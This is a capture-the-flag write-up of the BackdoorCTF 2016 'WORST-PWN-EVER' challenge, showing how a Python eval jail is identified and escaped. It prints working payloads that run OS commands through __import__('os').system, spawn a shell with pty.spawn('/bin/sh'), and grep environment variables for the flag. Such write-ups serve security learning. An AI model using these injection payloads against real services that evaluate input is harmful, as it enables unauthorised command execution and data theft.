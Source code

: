 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER
Author: Ashish Chaudhary
Points: 100
Category: pwn, Python
Description:
>  tocttou is an enviornmentalist. But some say he has a vicious motive and he uses nature to hide his dark side. We found a weird shell on his amazon (pun inteded) web services. Can you tell us what is he upto? Tip: he might shut down the machine if he notices you - and he will (maybe in 45 seconds). Access: nc hack.bckdr.in 9008


## TL;DR
We have been given an Python eval jail over a TCP socket.  
The solution is to retreive an environment variable using one 
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```

## Solution
After establishing a~connection to the given server a~prompt is returned.  
Let's try some random fuzzing...
First let's see what happens when we press ```CTRL+D```
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a~system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a~system shell. It looks like a~Python interpreter.  
Let's check this theory then:
```
> 1+1
```
No response, no error ---~it looks promising.  
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old ```eval``` jail, then
we could escape using a~classic builtin hacks.  
Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a~few minutes
and finding nothing useful, we noticed the task description
contains a~clue ---~the word ```environmentalist```
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
